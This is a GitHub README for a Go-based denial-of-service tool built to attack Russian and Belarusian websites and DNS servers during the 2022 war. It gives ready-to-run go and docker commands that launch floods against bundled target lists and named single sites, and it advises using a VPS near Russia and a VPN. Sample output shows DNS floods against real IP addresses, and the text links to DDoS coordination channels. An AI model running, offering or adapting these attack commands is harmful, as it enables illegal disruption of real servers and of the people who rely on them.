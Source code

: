 [![Github All Releases](https://img.shields.io/github/downloads/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj/total.svg)](https://github.com/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj/releases)
[![Go Report Card](https://goreportcard.com/badge/github.com/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj)](https://goreportcard.com/report/github.com/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj)
![Build@release](https://github.com/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj/actions/workflows/release.yml/badge.svg)
![Tests@main](https://github.com/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj/actions/workflows/test.yml/badge.svg)

### Hi there 👋

If this repo becomes taken down, then it is a sign that GitHub supports war atrocities commited by putin!

IMPORTANT!!! Please take your security seriously and use VPN while running this software from your own devices(PC/Laptop/Android/etc)!

NOTE: Since this app is not signed by any certificate for obvious reasons, Windows Defender will complain that this app is from an unknown source. It is safe to run this app anyway **unless it was downloaded from another location**. In which case the app may be altered, so be vigilant and compare the hashes of your binaries!

![GUI](Capture.JPG)

This repository was created in order to help defend against Russia propaganda during the war activities of Russian armies in Ukraine 2022.

There are two variants of the program:
- GUI
- CLI

For GUI simply download the latest program for your operating system from the Releases section.
It is possible to run CLI program using Docker.


# Usage
## Desktop App
- `RusskijKorablIdiNaxuj.exe.zip` for Windows platforms 
- `RusskijKorablIdiNaxuj.apk` for Android platforms 
- `RusskijKorablIdiNaxuj.tar.xz` for Linux platforms 
- Please build manually for Mac-OS. 

After executing the binary there will be a window similar to the one in the screenshot above. If you have a less formidable PC, then reduce "Workers" number to something like 500.
Then you can click on the little triangle on the right and start the process.

## Command line

Just clone this repo, install Go and from clonned directory do (preferrably on a VPS that is close to Russia):
```
go run ./cmd/RusskijKorablIdiNaxuj-cli -i targets/targets.txt
```

Also, you can install the GUI executable using this command(although you will still need Fyne dependencies for your system):
```
go install github.com/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj@latest
```

Or the following command for the cli version:

```
go install github.com/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj/cmd/RusskijKorablIdiNaxuj-cli@latest
```

NOTE: It may consume a lot of RAM as it tries to leave connections open for a as long time as possible. Minimum 4GB is needed.

## Docker

You can run docker for all targets at the same time using this command:
```
docker run -d --restart unless-stopped ghcr.io/russkijkorablidinaxuj/russkijkorablidinaxuj:latest
```

If it is crashing due to OOM:
```
docker run -d --restart unless-stopped ghcr.io/russkijkorablidinaxuj/russkijkorablidinaxuj:latest -N 1000
```

You can also specify different target lists using `-i app/{target}.json`, where `{target}` can be one of:
 - all.json
 - belarus.json
 - russia.json
 - api.json
 - dns.json

It is possible to see attack progress using this command:
```
docker run -i --restart unless-stopped ghcr.io/russkijkorablidinaxuj/russkijkorablidinaxuj:latest -N 1000 -i /app/dns.json -s=false
```
The output will be something like this:
```
root@putinhujlo-ch1:~/RusskijKorablIdiNaxuj# docker run -i --restart unless-stopped ghcr.io/russkijkorablidinaxuj/russkijkorablidinaxuj:latest -N=5000 -i /app/dns.json -s=false
dns://194.54.14.186:53  0 % [---------------------------] 0 / -1
dns://194.54.14.186:53   5 % [>--------------------]  193 / 3978
dns://194.54.14.187:53   6 % [>--------------------]  226 / 3685
dns://194.67.7.1:53     94 % [===================>-] 4993 / 5284
dns://194.67.2.109:53   90 % [==================>--] 3058 / 3414
```

The progress bar shows how many timeouts there are relative to the requests per second. The higher this ratio to 100% the better!

NOTE: You can also specify single targets using `-i` command, e.g. `-i https://tass.ru/` (it must have either http or https. Also, `dns://` works too for dns query flood)

# Important resources

- International Ukraine DDOS Alliance Telegram: https://t.me/ukraineddos
- IT ARMY of Ukraine Telegram: https://t.me/itarmyofukraine2022

# Contribute targets/Code

Either create an issue or a PR.
